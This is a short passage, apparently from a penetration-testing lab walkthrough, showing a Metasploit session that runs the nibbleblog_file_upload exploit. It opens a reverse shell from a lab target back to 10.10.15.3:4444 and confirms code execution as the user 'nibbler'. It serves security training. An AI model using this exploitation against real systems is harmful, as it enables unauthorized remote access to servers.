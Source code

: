  **Running Exploit**
 ```
shell-session
msf6 exploit(multi/http/nibbleblog_file_upload) > exploit

[*] Started reverse TCP handler on 10.10.15.3:4444 
[*] Command shell session 4 opened (10.10.15.3:4444 -> 10.129.42.190:53642) at 2021-04-21 16:32:37 +0000
[+] Deleted image.php

id
uid=1001(nibbler) gid=1001(nibbler) groups=1001(nibbler)
```
